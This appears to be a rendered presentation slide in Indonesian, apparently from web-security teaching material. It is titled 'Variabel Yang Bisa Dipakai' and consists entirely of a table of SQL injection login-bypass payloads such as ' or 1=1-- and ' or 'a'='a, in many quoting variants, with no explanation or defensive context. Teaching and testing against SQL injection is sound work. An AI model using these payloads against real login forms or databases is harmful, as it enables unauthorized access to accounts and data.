

Variabel Yang Bisa Dipakai
| or 1=1-- " or 1=1-- or 1=1-- ' or 'a'='a " or "a"="a ') or ('a'='a ' or 0=0 -- " or 0=0 -- or 0=0 -- ' or 0=0 # | " or 0=0 # Or 0=0 # ' or 'x'='x " or "x"="x ') or ('x'='x ' or 1=1-- " or 1=1-- or 1=1-- | " or "a"="a ') or ('a'='a ") or ("a"="a hi" or "a"="a hi" or 1=1 -- hi' or 1=1 -- hi' or 'a'='a hi') or ('a'='a hi") or ("a"="a ‘or a=a-- |
| --- | --- | --- |